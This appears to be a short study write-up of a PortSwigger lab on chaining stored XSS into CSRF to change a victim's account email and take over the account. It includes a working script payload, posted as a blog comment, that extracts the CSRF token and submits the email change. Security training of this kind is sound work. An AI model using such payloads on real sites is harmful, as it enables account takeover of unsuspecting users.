



perform CSRF with XSS
With an XSS we can trigger also a CSRF!
Example of how perform a CSRF by using a XSSSome websites allow logged-in
users to change their email address without re-entering their password. If you've found an XSS vulnerability,
you can make it trigger this functionality to change the victim's email address to one that you control, and
then trigger a password reset to gain access to the account.
1. Log in using the credentials provided. On
your user account page, notice the function for updating your email address.
2. If you view the source for the
page, you'll see the following information:
◇ You need to issue a POST request
to
/my-account/change-email, with a parameter called
email.
◇ There's an
anti-CSRF token in a hidden input called
token.
 this is instead the POST request to change the email, we can see that the
csrf token is sent to change the email:
3. The exploit will need to:
1) load the user account page
(/my-account)
2) extract the CSRF token (with function “responseText.match(...)”)
3) and then use the
token to change the victim's email address (with function “XMLHttpRequest().send(...)”)
Submit the
following payload in a blog comment:
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
This will make
anyone who views the comment issue a POST request to change their email address
to
test@test.com.
Bibliography:https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf